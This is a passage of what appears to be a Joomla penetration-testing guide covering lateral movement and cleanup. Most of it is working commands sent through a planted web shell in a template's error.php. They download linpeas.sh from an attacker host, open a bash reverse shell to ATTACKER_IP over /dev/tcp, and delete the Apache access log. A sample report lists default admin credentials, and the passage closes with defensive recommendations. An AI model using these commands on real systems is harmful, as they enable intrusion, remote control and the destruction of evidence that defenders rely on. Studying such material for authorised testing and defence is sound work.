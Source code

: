 #### Phase 4: Lateral Movement Preparation
```bash
# 1. Establish persistent access
curl "http://target.com/templates/protostar/error.php?cmd=which+nc"

# 2. Download additional tools
curl "http://target.com/templates/protostar/error.php?cmd=wget+http://attacker.com/linpeas.sh+-O+/tmp/linpeas.sh"

# 3. Setup reverse shell
curl "http://target.com/templates/protostar/error.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/ATTACKER_IP/4444+0>%261'"
```

### Cleanup and Documentation

#### Professional Cleanup Protocol
```bash
# 1. Remove web shells
# Restore original template files
# Clear injected PHP code

# 2. Clean logs (if possible)
curl "http://target.com/templates/protostar/error.php?cmd=rm+/var/log/apache2/access.log"

# 3. Document all changes
cat > joomla_exploitation_report.txt << 'EOF'
=== Joomla Exploitation Report ===
Target: http://target.com
Date: $(date)

Modified Files:
- /templates/protostar/error.php
- Original hash: [HASH]
- Modified hash: [HASH]

Access Methods:
- Admin credentials: admin:admin
- Template injection: error.php
- Web shell parameter: cmd

Cleanup Status:
- ✅ Web shell removed
- ✅ Original files restored  
- ✅ Logs cleared (where possible)
- ✅ No persistence mechanisms left

Recommendations:
- Change default admin credentials
- Restrict template editing permissions
- Enable file integrity monitoring
- Apply security patches (CVE-2019-10945)
EOF
```

---